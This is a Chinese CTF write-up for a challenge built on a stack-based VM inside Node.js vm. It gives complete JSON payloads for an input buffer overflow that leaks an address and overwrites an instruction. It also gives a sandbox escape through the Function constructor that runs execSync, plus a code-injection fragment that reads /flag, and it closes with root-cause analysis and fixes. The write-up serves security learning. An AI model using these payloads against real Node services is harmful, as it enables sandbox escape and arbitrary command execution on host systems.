


# Stack Overflow

## 题目简述

题目实现了一个运行在 Node.js `vm` 中的栈式虚拟机。预期漏洞是 VM 的输入缓冲区只有 20 个元素，但读取逻辑允许写入 28 个元素，越界内容会覆盖相邻的 VM 指令。先把一条输出指令改造成内存泄露，得到运行时 VM 代码基址；再覆盖目标指令，让 VM 从额外 JSON 数组中读取恶意 JavaScript 对象，最终借 `Function` 构造器取得宿主 `process` 并执行命令。

另有一条更短的非预期解：`call_interface` 直接把栈中用户数据用 `join(",")` 拼进 JavaScript 源码，然后交给 `vm.runInNewContext`。参数没有引用或转义，因此可以闭合原表达式并直接注入代码，无需先做越界和地址泄露。

## 解题过程

### 用输入越界泄露 VM 代码基址

输入数组前 20 项填满正常缓冲区，后续项目开始覆盖相邻控制数据和指令。官方 payload 为：

```json
{
  "stdin": [
    "a",
    "b",
    "c",
    "d",
    "e",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "28",
    "test",
    "stdin",
    "read",
    "hacked",
    "hacked",
    "1000"
  ]
}
```

覆盖后的输出会把相邻 VM 指令数据写到 `stdout`。一次运行中泄露出数值 `748852661`，而已知它相对 VM 代码基址的偏移是 24，因此：

$$
\mathrm{vm\_base}=748852661-24=748852637
$$

原题解称其为 “PIE”，但它实际是 VM 指令区的动态基址，并不是原生 PE/ELF 的 PIE 基址。



### 覆盖目标指令并读入恶意对象

待覆盖指令位于 `vm_base + 42`：

$$
748852637+42=748852679
$$

第二次请求把越界后的操作改成向该地址执行 `read`，数据源使用额外的 `hack` 数组：

```json
{
  "stdin": [
    "a",
    "b",
    "c",
    "d",
    "e",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "0",
    "28",
    "aaaaa",
    "stdin",
    "read",
    "1",
    "748852679",
    "hack",
    "read"
  ],
  "hack": [
    "(() => { const value = {}; value.toString = function () { const caller = arguments.callee.caller; const process = caller.constructor.constructor('return process')(); return process.mainModule.require('child_process').execSync('whoami').toString(); }; return value; })"
  ]
}
```

恶意表达式返回一个对象，而不是立即执行命令。VM 后续把结果转换为字符串时会隐式调用该对象的 `toString`：

1. `arguments.callee.caller` 取得沙箱调用链上的函数；
2. `caller.constructor.constructor` 取得宿主的 `Function` 构造器；
3. 动态函数 `return process` 返回 Node.js 宿主 `process`；
4. 从 `process.mainModule` 加载 `child_process`；
5. `execSync` 执行命令并把输出作为字符串返回。

截图中命令输出列出了 `app.js`、`index.html`、`node_modules` 等文件，证明已经越过 VM 上下文到达宿主进程。



具体数值依赖单次运行的 VM 布局，第二阶段必须使用第一阶段当前实例泄露出的基址，不能把 `748852679` 当作固定地址。

### `call_interface` 的直接代码注入

更短的利用点位于：

```typescript
case "call_interface": {
    const numOfArgs = stack.pop();
    const cmd = stack.pop();
    const args: any[] = [];

    for (let index = 0; index < numOfArgs; index++) {
        args.push(stack.pop());
    }

    const source = cmd + "(" + args.join(",") + ")";
    const result = vm.runInNewContext(source);
    stack.push(result.toString());
    break;
}
```

`args.join(",")` 只做字符串拼接，不会把参数序列化成安全的 JavaScript 字面量。只要让某个数组元素的字符串表示闭合当前调用，就能追加任意表达式并用注释吞掉剩余字符。原题解使用的核心片段为：

```javascript
');this.constructor.constructor(
  'return process.mainModule'
  + '.require("child_process")'
  + '.execSync("cat /flag").toString()'
)();//
```

提交到 JSON 时需要按 JSON 规则转义引号。原材料没有给出承载这个片段的完整栈初始化请求，因此这里将其明确标为注入片段，而不是伪装成可直接发送的完整 payload。

根因是把数据和代码拼成同一字符串后执行。即使使用 `vm.runInNewContext`，只要对象原型或构造器路径能连接到宿主上下文，它也不能替代严格的语法白名单与能力隔离。

## 方法总结

预期链是“28 项写入覆盖 20 项缓冲区→改写输出指令泄露 VM 基址→按 `base + 42` 覆盖读指令→恶意 `toString` 经 Function 构造器逃逸”。需要把运行时 VM 地址与原生 PIE 概念区分，并在同一实例上完成两阶段利用。

非预期链更直接：`call_interface` 把用户参数拼入 JavaScript 源码，形成命令注入。修复时应让接口调用基于固定的函数映射和真实参数数组完成，绝不能通过字符串拼接构造待执行源码；Node `vm` 也不应被当作处理恶意输入的强安全边界。
